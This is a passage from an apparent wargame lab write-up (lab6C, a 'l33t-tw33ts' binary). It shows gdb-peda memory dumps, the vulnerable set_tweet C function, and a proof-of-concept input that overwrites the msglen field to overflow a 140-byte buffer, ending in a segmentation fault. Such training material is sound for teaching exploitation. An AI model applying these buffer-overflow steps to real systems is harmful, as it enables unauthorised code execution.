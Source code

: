```nasm

Breakpoint 2, 0xb77987ec in handle_tweet ()
gdb-peda$ x/64x 0xbf859e48
0xbf859e48: 0x42424242  0x0000000a  0x00000000  0x00000000
0xbf859e58: 0x00000000  0x00000000  0x00000000  0x00000000
0xbf859e68: 0x00000000  0x00000000  0x00000000  0x00000000
0xbf859e78: 0x00000000  0x00000000  0x00000000  0x00000000
0xbf859e88: 0x00000000  0x00000000  0x00000000  0x00000000
0xbf859e98: 0x00000000  0x00000000  0x00000000  0x00000000
0xbf859ea8: 0x00000000  0x00000000  0x00000000  0x00000000
0xbf859eb8: 0x00000000  0x00000000  0xb7760000  0x0000000a
0xbf859ec8: 0x000000c2  0xb7765000  0x00000086  0x41414141
0xbf859ed8: 0x41414141  0x41414141  0x41414141  0x41414141
0xbf859ee8: 0x41414141  0x41414141  0x41414141  0x41414141
0xbf859ef8: 0x41414141  0x0000007a  0x00000000  0xb779a000 ; We overwrote 0x8c with 0x7a!
0xbf859f08: 0xbf859f28  0xb779898a  0xb7798a80  0xb7797000
0xbf859f18: 0xb77989ab  0xb7765000  0xb77989a0  0xb7765000
0xbf859f28: 0x00000000  0xb75d4a83  0x00000001  0xbf859fc4
0xbf859f38: 0xbf859fcc  0xb7784cea  0x00000001  0xbf859fc4
gdb-peda$
```

As we can see, we were able to overwrite **msglen** with **0x7a**. 

```c
void set_tweet(struct savestate *save )
{
    char readbuf[1024];
    memset(readbuf, 0, 1024);

    printf(">: Tweet @Unix-Dude\n");
    printf(">>: ");

    fgets(readbuf, 1024, stdin);
    strncpy(save->tweet, readbuf, save->msglen);

    return;
}
```

Now, we will write a proof of concept to see of we can get the control of **EIP**. Here, we will change the **msglen** with **0xfa** (or 250 in decimal) to overflow the `tweet[140]` member in the **save** structure.

```nasm
gdb-peda$ pattern_create 250
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0'
gdb-peda$ r < <(python -c "print(40 * 'A' + '\xfa\n' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0')")
Starting program: /levels/lab06/lab6C < <(python -c "print(40 * 'A' + '\xfa\n' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0')")
--------------------------------------------
|   ~Welcome to l33t-tw33ts ~    v.0.13.37 |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Tweet @Unix-Dude
>>: >: Tweet sent!

Program received signal SIGSEGV, Segmentation fault.
```